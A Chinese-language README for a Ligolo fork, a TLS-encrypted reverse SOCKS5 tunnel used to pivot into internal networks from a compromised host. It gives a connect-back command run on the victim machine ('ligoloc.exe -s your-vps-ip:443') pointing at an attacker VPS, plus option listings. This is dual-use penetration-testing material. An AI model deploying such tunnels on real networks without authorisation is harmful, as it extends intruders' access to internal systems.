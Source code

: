 # Ligolo : 用于内网渗透的反向隧道

[![forthebadge](https://forthebadge.com/images/badges/made-with-go.svg)](https://forthebadge.com)
[![forthebadge](https://forthebadge.com/images/badges/gluten-free.svg)](https://forthebadge.com)

简体中文 | [English](./README.md)

## 介绍

项目根据 [ligolo](https://github.com/sysdream/ligolo) 修改,主要做一些功能上的裁剪,方便使用.

**Ligolo** 是一个简单的,轻量级的反向Socks5代理工具,所有的流量使用TLS加密.

其功能类似于*Meterpreter*中的*Autoroute + Socks4a*,但是更加稳定,速度更快.

## 使用场景

当你已经在对方内网获取到一台 Windows / Linux / Mac 主机的权限且该主机可以连接互联网.

此时你想要建立一个对方内网的Socks5代理.

**Ligolo** 可以帮助你建立代理,协助你继续进行内网渗透.

> 如果已控主机不能访问互联网,可以尝试使用另一款工具 [pystinger](https://github.com/FunnyWolf/pystinger)

## 使用方法

### TL;DR

- 获取已编译的二进制文件 [release](https://github.com/FunnyWolf/ligolo/releases)

- 在你的VPS主机中.

```
./ligolos
```

- 在已控制的内网主机中.

```
> ligoloc.exe -s your-vps-ip:443
```

- 连接建立成功后,此时VPS的127.0.0.1:1080已经建立已控主机的内网Socks5代理.

### 详细说明

*Ligolo* 包含两个模块:

- ligolos (server)
- ligoloc (client)

*ligolos* 运行于你的VPS服务器 (攻击服务器).

*ligoloc* 运行于已经控制的内网主机.

*ligolos*可以使用默认设置.它会监听0.0.0.0:443端口(用于等待ligoloc连接)及127.0.0.1:1080(用于socks5代理).

*ligoloc*运行时必须制定服务端地址,使用参数`-s your-vps-ip:443`.

你可以使用`-h`参数查看帮助.

一旦*ligolos* 和 *ligoloc* 之间的连接建立成功,你即可使用VPS服务器`127.0.0.1:1080`的内网socks5代理.

### 选项

*ligolos* options:

```
PS XXX\bin> .\ligolos_windows_amd64.exe -h
Usage of D:\Code\git\go\src\ligolo\bin\ligolos_windows_amd64.exe:
  -cert string
        The TLS server certificate,Unnecessary (default "cert.pem")
  -key string
        The TLS server key,Unnecessary (default "key.pem")
  -l string
        The relay server listening address (the connect-back address) (default "0.0.0.0:443")
  -s5 string
        The local socks5 server address (your proxychains parameter) (default "127.0.0.1:1080")
```

*ligoloc* options:

```
PS XXX\bin> .\ligoloc_windows_amd64.exe -h
Usage of D:\Code\git\go\src\ligolo\bin\ligoloc_windows_amd64.exe:
  -s string
        The relay server (the connect-back address) (default "example.com:443")
```

### 编译

参考原版ligolo的编译方法

## 特性

- TLS 1.3 加密隧道
- 多平台 (Windows / Linux / Mac / ...)
- 多连接复用 (1 TCP连接传输所有流量)
- SOCKS5代理

## To Do

- 更好的超时机制
- SOCKS5 UDP 支持
- mTLS双向认证
- 反向端口映射 (映射内网端口到互联网)

## Licensing

GNU General Public License v3.0 (参考 LICENSING).

## 原版作者

* Nicolas Chatelain <n.chatelain -at- sysdream.com>



